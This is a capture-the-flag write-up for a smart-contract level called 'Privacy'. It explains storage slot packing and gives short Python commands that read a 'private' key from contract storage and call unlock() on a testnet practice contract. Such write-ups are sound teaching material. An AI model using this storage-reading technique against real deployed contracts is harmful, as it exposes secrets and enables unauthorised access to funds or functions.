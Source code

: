 # Privacy

## Objectives

Unlock this contract to beat the level.

## Solution

First, the data in the `data` variable must be retrieved. This can be done by extracting the data from the contract storage as it is on the blockchain. In brownie, this can be done using `web3.eth.get_storage_at()`, with the address of the contract in the first param and the direction of the contract storage slot to look into.

Each slot has a capacity of 32 bytes (256 bits), meaning that data types which actually fill up a 32 byte slot, are going to take up a whole slot, so the following ones roll over to the next slot. If a data type is declared as `uint256` or `bytes32`, it will always occupy a full storage slot, as these types are already 32 bytes in size. 

In the case of the Privacy contract, we know that the relevant piece of data is the last element of the array `data`. Therefore, to extract this, we must determine _where_ this piece of data is, in what storage slot.

This contract's state variables are, in order:

```js
bool public locked = true;
uint256 public ID = block.timestamp;
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(now);
bytes32[3] private data;
```

Therefore, the storage looks a little like this:

| slot number | object                                   | content                                                            |
|-------------|------------------------------------------|--------------------------------------------------------------------|
| 0           | locked                                   | true                                                               |
| 1           | ID                                       | block timestamp                                                    |
| 2           | flattening, denomination and awkwardness | uint16(now), 255, 100                                              |
| 3           | data[0]                                  | 0x64a6f16b073f2385269a71e47d8ae45f47d73172c5c87510274dba78b584bbaa |
| 4           | data[1]                                  | 0x9a8835c8dd1948872493737460934d6db82def5f62b1108323a69dcff6391462 |
| 5           | data[2]                                  | 0x1942e9d3378c23e90a2cc2f45bd4f1ec7f2fd8ed471d58024a3e1efe498c8ec5 |

What we're interested in is the _first 16 bytes of data[2]_, which is (in hex):

```
1942e9d3378c23e90a2cc2f45bd4f1ec
```

So then after acquiring this, all that needs to be done is simply pass it as parameter to `unlock()`, which will cause `locked` to become false.

## How I did it

Exactly as I described in [solution](#solution):

1. Get the first 16 bytes of the data in the 5th storage position of the contract instance.

```python
data_2 = web3.toBytes(hexstr=web3.eth.get_storage_at(privacy.address, '0x5').hex())[0:16].hex()
```

2. Pass it to the `unlock()` function

```python 
privacy.unlock(data_2, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x654abd57f4c71ca865d05575f9ff6356aa2940d25541cf2f53347241d6dfb0d3

3. Check that `locked` is false

```python
locked_assertion = privacy.locked() == False
print(f"The contract is unlocked: {locked_assertion}")
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x3e1f0abea2f84273b9a5c67b7c66562ce86601bd44ef835518ae05489d13ec96
